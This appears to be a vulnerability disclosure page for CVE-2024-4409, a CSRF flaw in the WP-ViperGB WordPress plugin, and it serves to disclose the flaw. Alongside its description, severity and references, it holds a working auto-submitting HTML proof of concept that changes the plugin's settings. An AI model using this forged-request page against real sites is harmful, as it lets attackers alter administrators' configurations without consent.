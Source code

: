 ```yaml
---
layout: page
title: CVE-2024-4409
subtitle: WP-ViperGB <= 1.6.1 - Cross-Site Request Forgery
---
```

## Description
The WP-ViperGB plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.6.1. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.6.1

## PoC :
```
<html>
  <!-- Made by eneriii<3 - https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=wp-vipergb" method="POST">
      <input type="hidden" name="vgb&#95;page" value="0" />
      <input type="hidden" name="vgb&#95;style" value="Default" />
      <input type="hidden" name="vgb&#95;items&#95;per&#95;pg" value="10" />
      <input type="hidden" name="vgb&#95;show&#95;browsers" value="1" />
      <input type="hidden" name="vgb&#95;show&#95;flags" value="1" />
      <input type="hidden" name="opts&#95;updated" value="1" />
      <input type="hidden" name="Submit" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3091230%40wp-vipergb%2Ftrunk&old=2812759%40wp-vipergb%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4409
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-vipergb/wp-vipergb-161-cross-site-request-forgery



